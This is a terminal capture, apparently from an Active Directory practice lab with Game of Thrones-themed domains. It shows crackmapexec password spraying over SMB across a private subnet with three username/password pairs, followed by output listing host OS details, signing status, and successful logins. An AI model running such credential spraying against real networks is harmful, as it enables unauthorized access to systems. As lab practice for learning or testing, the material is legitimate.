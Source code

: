 root@tala-HP-255-15-6-inch-G10-Notebook-PC:~/goatlab/recon# crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
crackmapexec smb 192.168.20.0/24 -u brandon.stark -p iseedeadpeople
crackmapexec smb 192.168.20.0/24 -u samwell.tarly -p Heartsbane

# Erfolgreiche Logins identifizieren
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing --shares
SMB         192.168.20.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.20.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.20.10   445    KINGSLANDING     [-] sevenkingdoms.local\jon.snow:iknownothing STATUS_LOGON_FAILURE
SMB         192.168.20.12   445    MEEREEN          [-] essos.local\jon.snow:iknownothing STATUS_LOGON_FAILURE
SMB         192.168.20.11   445    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.20.23   445    BRAAVOS          [+] essos.local\jon.snow:iknownothing 
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.20.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.23   445    BRAAVOS          [+] essos.local\brandon.stark:iseedeadpeople
SMB         192.168.20.12   445    MEEREEN          [-] essos.local\brandon.stark:iseedeadpeople STATUS_LOGON_FAILURE
SMB         192.168.20.11   445    WINTERFELL       [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.20.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.20.10   445    KINGSLANDING     [-] sevenkingdoms.local\brandon.stark:iseedeadpeople STATUS_LOGON_FAILURE
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.20.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.12   445    MEEREEN          [-] essos.local\samwell.tarly:Heartsbane STATUS_LOGON_FAILURE
SMB         192.168.20.23   445    BRAAVOS          [+] essos.local\samwell.tarly:Heartsbane 
SMB         192.168.20.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane